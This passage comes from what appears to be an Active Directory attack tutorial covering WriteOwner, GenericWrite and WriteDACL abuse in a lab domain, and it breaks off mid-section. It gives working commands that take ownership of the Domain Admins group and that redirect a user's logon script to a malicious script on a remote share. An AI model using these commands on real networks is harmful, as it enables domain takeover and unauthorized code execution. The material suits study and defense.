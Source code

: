 ### WriteOwner on Group

Note how before the attack the owner of `Domain Admins` is `Domain Admins`:

![](<../../.gitbook/assets/Screenshot from 2018-11-08 16-45-36.png>)

After the ACE enumeration, if we find that a user in our control has `WriteOwner` rights on `ObjectType:All`

```csharp
Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local" -and $_.IdentityReference -eq "OFFENSE\spotless"}
```

![](<../../.gitbook/assets/Screenshot from 2018-11-08 16-45-42.png>)

...we can change the `Domain Admins` object's owner to our user, which in our case is `spotless`. Note that the SID specified with `-Identity` is the SID of the `Domain Admins` group:

```csharp
Set-DomainObjectOwner -Identity S-1-5-21-2552734371-813931464-1050690807-512 -OwnerIdentity "spotless" -Verbose
```

![](<../../.gitbook/assets/Screenshot from 2018-11-08 16-54-59.png>)

### GenericWrite on User

```csharp
Get-ObjectAcl -ResolveGUIDs -SamAccountName delegate | ? {$_.IdentityReference -eq "OFFENSE\spotless"}
```

![](<../../.gitbook/assets/Screenshot from 2018-11-08 19-12-04.png>)

`WriteProperty` on an `ObjectType`, which in this particular case is `Script-Path`, allows the attacker to overwrite the logon script path of the `delegate` user, which means that the next time, when the user `delegate` logs on, their system will execute our malicious script:

```csharp
Set-ADObject -SamAccountName delegate -PropertyName scriptpath -PropertyValue "\\10.0.0.5\totallyLegitScript.ps1"
```

Below shows the user's ~~`delegate`~~ logon script field got updated in the AD:

![](<../../.gitbook/assets/Screenshot from 2018-11-08 19-13-45.png>)

### WriteDACL + WriteOwner

If you are the owner of a group, like I'm the owner of a `Test` AD group:

![](<../../.gitbook/assets/Screenshot from 2018-11-10 19-02-57.png>)

Which you can of course do through powershell:
